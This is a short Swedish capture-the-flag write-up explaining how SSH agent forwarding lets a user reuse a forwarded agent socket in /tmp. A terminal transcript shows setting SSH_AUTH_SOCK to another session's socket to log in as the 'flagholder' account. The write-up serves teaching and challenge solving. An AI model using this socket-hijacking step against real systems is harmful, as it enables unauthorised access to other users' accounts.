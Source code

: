 # Hemlig agent

Kontot "flagholder" har en SSH-session till "chall"-kontot som deltagarna får åtkomst till. SSH-sessionen har agent forwarding aktiverat vilket gör det möjligt att återanvända sina SSH-nycklar för att ansluta till en annan maskin. För att det ska fungera skapas en SSH-agent-socket i `/tmp` som ägs av kontot som SSH-sessionen loggar in som. Det kontot (eller root) kan använda socketen för att skapa nya sessioner med SSH-nycklarna som agenten har inladdade, se "Security Issues With Key Agents" på http://unixwiz.net/techtips/ssh-agent-forwarding.html.

I uppgiften kan detta utnyttjas via:
```
chall@61887a389640:~$ ls -l /tmp/
total 0
drwx------ 1 chall      chall      16 Aug 28 11:34 ssh-XXXXRGT0NZ
drwx------ 1 flagholder flagholder 16 Aug 28 11:34 ssh-XXXXXXkUQTPM
chall@61887a389640:~$ SSH_AUTH_SOCK=/tmp/ssh-XXXXRGT0NZ/agent.33 ssh flagholder@localhost
[...]
flagholder@61887a389640:~$
```
